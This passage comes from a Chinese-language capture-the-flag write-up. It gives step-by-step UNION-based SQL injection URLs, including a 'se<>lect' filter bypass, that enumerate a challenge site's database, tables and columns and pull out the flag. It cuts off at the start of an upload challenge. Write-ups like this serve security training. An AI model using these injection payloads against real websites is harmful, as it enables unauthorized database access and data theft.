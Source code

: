 ![PzeWwt.png](img/d93b6cbc384c6413d5a2288b16fa14d9.png)

说明第二个字段可以显示，那么接下来就是爆数据库名，表名，列名:

①爆数据库名

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,database(),3 from info
```

②爆表名

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,table_name,3 from information_schema.tables where table_schema='sqli'
```

③爆列名

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,column_name,3 from information_schema.columns where table_name='sqli'
```

发现疑似存在flag的列

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,flAg_T5ZNdrm,3 from sqli.info
```

flag就出来了。

#### （3）Do you know upload

==hint：加油吧，少年。==

创建链接，点开
